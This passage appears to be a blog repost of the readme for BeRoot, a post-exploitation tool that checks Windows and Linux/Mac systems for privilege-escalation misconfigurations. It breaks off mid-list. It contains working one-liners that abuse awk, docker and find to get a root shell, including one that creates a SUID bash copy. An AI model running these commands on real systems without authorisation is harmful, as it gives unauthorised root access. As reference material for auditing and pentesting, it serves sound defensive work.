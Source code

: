   

### Other possible misconfigurations

#### Other tests are realized to check if it's possible to:

- Modify an existing service
- Create a new service
- Modify a startup key (on HKLM)
- Modify directory where all scheduled tasks are stored: "C:\Windows\system32\Tasks"

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEglSimWw5ZFEWdFwlq5t2Y0SWpknBED-BJ3EWj2T2O5x3yhjeu1axeiankrcHX1STKln2m-YmAbvD5ELtxKI5ZDa0iTNd8CoW0uHEsF6QT339mbivkJMtfxrum0tmltYb3xd3tVENsu87Fo/s640/BeRoot+Privilage+Escalation.jpg)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEglSimWw5ZFEWdFwlq5t2Y0SWpknBED-BJ3EWj2T2O5x3yhjeu1axeiankrcHX1STKln2m-YmAbvD5ELtxKI5ZDa0iTNd8CoW0uHEsF6QT339mbivkJMtfxrum0tmltYb3xd3tVENsu87Fo/s1600/BeRoot+Privilage+Escalation.jpg)

  

  

## BeRoot For Linux

BeRoot is a post exploitation tool to check common misconfigurations on Linux and Mac OS to find a way to escalate our privilege.

  

To understand privilege escalation on these systems, you should understand at least two main notions: LOLBins (this name has been given for Windows binaries but it should be correct to use it for Linux as well) and Wildcards. 

This Readme explains all technics implemented by BeRoot to better understand how to exploit it.

  

### LOLBins

LOLBins could be used to gain root privilege on a system. These binaries allow a user to execute arbitrary code on the host, so imagine you could have access to one of them with sudo privilege (suid binary or if it's allowed on the sudoers file), you should be able to execute system command as root.

  

**Here is a list of well-known binaries:**

- **awk**

sudo awk 'BEGIN {system("/bin/sh")}'

- **docker (if you can call docker, no need to run it with sudo)**

docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p

- **find**

sudo find . -type d -exec sh -c id {} \;

- **file viewer**
